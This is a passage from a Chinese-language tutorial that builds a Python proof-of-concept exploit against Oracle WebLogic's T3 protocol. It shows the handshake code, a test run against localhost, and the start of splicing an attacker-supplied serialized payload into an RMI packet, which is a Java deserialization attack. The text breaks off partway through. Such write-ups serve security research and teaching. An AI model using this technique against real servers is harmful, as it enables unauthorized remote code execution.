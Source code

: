 ```text
server_address = (sys.argv[1], int(sys.argv[2]))

print 'connecting to %s port %s' % server_address

sock.connect(server_address)

# 发送握手包

handshake='t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n'

print 'sending "%s"' % handshake

sock.sendall(handshake)

data = sock.recv(1024)

print 'received "%s"' % data
```

执行一下看结果：

```text
$python weblogic_basic_poc.py 127.0.0.1 7001

connecting to 127.0.0.1 port 7001

sending "t3 12.1.3

AS:255

HL:19

MS:10000000

"

received "HELO:10.3.6.0.false

AS:2048

HL:19

"
```

很好，和上面抓到的包一样，握手成功。继续下一步。下一步我需要替换掉握手后的第一个数据包中的一组序列化数据，这个数据包原本是客户端请求WebLogic RMI发的T3协议数据包。假设我们替换第一组序列化数据：

```text
# weblogic_basic_poc.py

# 第三个参数传入一个文件名，在本例中为刚刚生成的“payload.bin”

payloadObj = open(sys.argv[3],'rb').read()

# 复制自原数据包，从24到155

payload='\x00\x00\x05\xf8\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x72\x00\x00\xea\x60\x00\x00\x00\x19\...omit...\x70\x06\xfe\x01\x00\x00'

# 要替换的Payload

payload=payload+payloadObj

# 复制剩余数据包，从408到1564
```